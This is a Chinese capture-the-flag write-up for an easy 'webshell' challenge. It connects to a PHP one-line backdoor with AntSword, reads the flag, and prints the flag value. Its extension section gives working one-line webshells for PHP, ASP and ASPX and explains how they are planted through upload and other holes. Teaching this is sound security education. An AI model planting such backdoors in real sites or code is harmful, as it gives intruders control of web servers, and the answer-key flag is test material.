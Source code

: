 ### WriteUp

#### 1.题目名称

webshell

#### 2.难度系数

简单

#### 3.题目来源

Cyberpeace-n3k0

#### 4.题目描述

小宁百度了php一句话,觉着很有意思,并且把它放在index.php里。

![1564997457455](C:\Users\Administrator\Desktop\10-20190805-webshell\WriteUp\images\1564997457455.png)

http://111.198.29.45:36701/

#### 5.解题步骤

##### 	5.1打开网址

![1564997552521](C:\Users\Administrator\Desktop\10-20190805-webshell\WriteUp\images\1564997552521.png)

页面提示webshell，并写了一句话木马，通过木马可知密码是“shell”

##### 		5.2 根据提示使用蚁剑

连接成功后，出现flag.txt,打开flag.txt,得到flag

![1564997847974](C:\Users\Administrator\Desktop\10-20190805-webshell\WriteUp\images\1564997847974.png)

![1564997916818](C:\Users\Administrator\Desktop\10-20190805-webshell\WriteUp\images\1564997916818.png)

#### 6.flag值

cyberpeace{410025d620fcdda2ad6212f12be89f23}

#### 7.延伸

一句话木马

- https://blog.csdn.net/weixin_39190897/article/details/86772765

- 基本原理：利用文件上传漏洞，往目标网站中上传一句话木马，然后就可以在本地通过蚁剑即可获取和控制整个网站目录。

  最简单的一句话木马

  ```
  <?php @eval($_POST['attack']) ?>
  ```

  @表示后面即使执行错误，也不报错。`eval（）`函数表示括号内的语句字符串什么的全都当做代码执行。`$_POST['attack']`表示从页面中获得attack这个参数值。

- 入侵条件

  ```
  （1）木马上传成功，未被杀；
  （2）知道木马的路径在哪；
  （3）上传的木马能正常运行。
  ```

- 常见的一句话木马

  ```
  php的一句话木马： <?php @eval($_POST['pass']);?>
  asp的一句话是：   <%eval request ("pass")%>
  aspx的一句话是：  <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
  ```

webshell

webshell（分类为远程访问木马）是作为一个基于网络的实现的网络安全威胁shell概念。 Webshell可以上传到Web服务器，以允许远程访问Web服务器，例如Web服务器的文件系统。Webshell的独特之处在于它使用户能够通过充当命令行界面的Web浏览器访问Web服务器。用户可以使用Web浏览器通过万维网访问远程计算机在任何类型的系统上，无论是台式计算机还是带有Web浏览器的手机，都可以在远程系统上执行任务。主机或客户端都不需要命令行环境。

简单的说webshell就是web后门，比如php，asp木马后门。黑客在入侵了一个网站后，常常在将这些 asp或php木马后门文件放置在网站服务器的web目录中，与正常的网页文件混在一起。然后就可以用web的方式，通过asp或php木马后门控制网站服务器，包括上传下载文件、查看数据库、执行任意程序命令等。

Web shell通过Web应用程序中的漏洞或弱服务器安全配置上传，包括以下内容：

 1. SQL注入 ;
 2. 应用程序和服务中的漏洞（例如NGINX等Web服务器软件或WordPress等内容管理系统应用程序）;
 3. 文件处理和上传漏洞（例如限制可上传的文件类型）;
 4. 远程文件包含（RFI）和本地文件包含（LFI）漏洞;
 5. 远程代码执行 ;
 6. 暴露的管理界面;
 7. 跨站脚本

后门

```
一般而言，后门就是开得比较隐蔽的通道，目的是为入侵者下次再来如期提供方便而留下的一条路子；
网站后门，就是一种为入侵者下次入侵提供便利的脚本接口文件。
```



